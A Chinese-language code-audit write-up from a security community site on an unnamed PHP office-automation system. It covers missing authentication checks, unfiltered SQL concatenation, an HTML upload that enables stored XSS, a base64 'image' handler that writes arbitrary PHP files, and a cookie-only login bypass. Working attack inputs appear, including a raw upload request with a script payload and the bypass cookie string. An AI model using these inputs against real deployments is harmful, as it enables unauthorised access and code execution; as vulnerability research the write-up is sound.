



# 记录一次某 OA 代码审计 - 先知社区

记录一次某 OA 代码审计

- - -

## **未授权访问漏洞 + 前台 SQL 注入漏洞**

发现数个文件存在未授权访问漏洞。究其原因没有包含鉴权文件 checklogin.php  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219094715-ced4f8a4-cec8-1.jpg)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219094728-d6b9e5b6-cec8-1.png)  
同时发现这个文件几个参数在拼接时没有进行过滤存在很明显的 SQL 注入漏洞。

```plain
if($suserxm!=''){
$sql=$sql." and userxm like '%$suserxm%'";
}
if($sjiabie!=''){
$sql=$sql." and jiabie like '%$sjiabie%'";
}
if($smudidi!=''){
$sql=$sql." and mudidi like '%$smudidi%'";
}
if($sniandu!=''){
$sql=$sql." and niandu like '%$sniandu%'";
}
$sql=$sql."  ORDER BY id asc LIMIT ".($pindex - 1) * $psize.','.$psize;
   $list =$db->fetchall($sql);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240219094920-1947b8ea-cec9-1.jpg)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219094935-2275a508-cec9-1.png)  
相似的这个目录下很多类似文件但是其他的都有做鉴权，所以可以说是后台注入，这里就不提了。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219094952-2ca9e908-cec9-1.png)  
同时 juese.php 也存在类似问题

```plain
$sql="SELECT *  FROM ".$db->tablename('juese') ." WHERE id>0";
if($key!=''){
$sql=$sql." and juese like '%$key%'";
}
$sql=$sql."  ORDER BY id asc LIMIT ".($pindex - 1) * $psize.','.$psize;
   $list =$db->fetchall($sql);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240219095022-3e96904e-cec9-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219095030-43090b5c-cec9-1.png)

```plain
switch ($_GET['action']) {
   case 'zidian':
    $zidian=$_GET['fenlei'];//获取 id
      $sql="SELECT *  FROM ".$db->tablename('vxiangmu') ." WHERE zidian='$zidian'";
         $list =$db->fetchall($sql);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240219095053-50cd5c66-cec9-1.png)

## **前台文件上传漏洞造成存储型 XSS**

寻思还有个未鉴权文件 upload.php 和 upfile.php 文件不能浪费啊，可好像都白名单写死了。但是在 upload.php 发现了端倪，这可以传 html。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219095126-645232d4-cec9-1.png)  
这里要手动传参 dir=file，要不然会默认当成 image 类型处理  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219095139-6c409fc6-cec9-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219095148-7172440e-cec9-1.png)

```plain
POST /upload.php?dir=file HTTP/1.1
Host: 192.168.19.25:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=eb570d137174d94106f5bc0a
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywlAMbJmcCIjUNS80
Content-Length: 178

------WebKitFormBoundarywlAMbJmcCIjUNS80
Content-Disposition: form-data; name="file";filename="1.html"

<script>alert(1)</script>
------WebKitFormBoundarywlAMbJmcCIjUNS80--
```

## **前台文件上传漏洞**

这个未授权的文件很有意思，本意应该是想使用 base64 编码功能去写入图片，但是稍加修改即可传入恶意文件。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219095243-927fa51a-cec9-1.png)  
传入的$img 前面必须要是以 data:image/文件格式;base64，开头 然后后面跟上 base64 编码即可。然后$result\[2\]就是正则表达式中第二个 () 的部分，即为\\w+ $result\[1\]就是最外面的括号即正则匹配部分 data:image/php;base64, 所以直接写入就 OK 了，提一嘴本来想写入的是<?php phpinfo();?> 但是不知道为啥写入后自动去掉了> 所以索性直接传<?php phpinfo();

```plain
<?php

$img = $_POST['imgbase64'];
if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $img, $result)) {
    $type = ".".$result[2];
    $path = "upload/" . date("Y-m-d") . "-" . uniqid() . $type;
}
$img =  base64_decode(str_replace($result[1], '', $img));
@file_put_contents($path, $img);
exit('{"src":"'.$path.'"}');
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240219095318-a76319e4-cec9-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219095325-ab4cab4c-cec9-1.png)

## **逻辑缺陷登陆绕过漏洞**

前面的 SQL 注入都是未包含鉴权文件 checklogin.php 引起的，那我们可以去观察下这个文件。发现鉴权写的有很多问题，只要保证以下参数值不为空且存在即可绕过。  
Cookie: id=1; loginname=1; jueseid=1; danweiid=1; quanxian=1;

```plain
function islogin(){
   if(isset($_COOKIE['id'])&&isset($_COOKIE['loginname'])&&isset($_COOKIE['jueseid'])&&isset($_COOKIE['danweiid'])&&isset($_COOKIE['quanxian'])){
      if($_COOKIE['id']!=''&&$_COOKIE['loginname']!=''&&$_COOKIE['jueseid']!=''&&$_COOKIE['danweiid']!=''&&$_COOKIE['quanxian']!=''){
          return true;
      }
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240219095417-caabb2d0-cec9-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219095423-ce40e37a-cec9-1.png)
